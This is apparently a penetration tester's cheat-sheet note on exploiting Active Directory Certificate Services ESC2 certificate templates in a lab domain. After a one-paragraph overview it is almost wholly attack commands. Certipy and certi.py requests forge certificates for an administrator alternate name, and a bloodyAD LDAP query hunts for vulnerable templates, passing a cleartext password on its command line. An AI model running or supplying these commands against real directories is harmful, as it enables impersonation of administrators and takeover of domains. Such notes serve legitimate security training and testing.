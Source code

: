 ```yaml
---
category: Uncategorized
tags: []
---
```

# General Overview: 

In order to abuse ESC2 certificate templates, the requirements are similar to those in ESC1, but with one key difference: if the template specifies the EKU as "Any Purpose" or doesn't specify an EKU at all, the certificate becomes versatile and can be used for any purpose. 

# Abusing ESC2 Certificates

## Certipy:
- `certipy-ad req -u "afsimmons@megacorpone.com" -p "$PASSWORD" -dc-ip "$DC_IP" -target "$ADCS_HOST" -ca 'ca_name' -template 'vulnerable template' -alt 'xadmin@megacorpone.com'
## Certi
- `python certi.py 'megacorpone.com/afsimmons@dc01.megacorpone.com' megacorpone-DC01-CA -k -n --alt-name 'xadmin@megacorpone.com' --template vulnerable-ec2-template`
## BloodyAD

- Source: https://github.com/CravateRouge/bloodyAD
- python bloodyAD.py -u alfred.simmons -p 'SuperSpawn123!' --host 172.21.100.1 -d bloody.lab get search --base 'CN=Configuration,DC=megacorpone,DC=com' --filter '(&(objectclass=pkicertificatetemplate)(!(mspki-enrollment-flag:1.2.840.113556.1.4.804:=2))(|(mspki-ra-signature=0)(!(mspki-ra-signature=*)))(|(pkiextendedkeyusage=2.5.29.37.0)(!(pkiextendedkeyusage=*))))'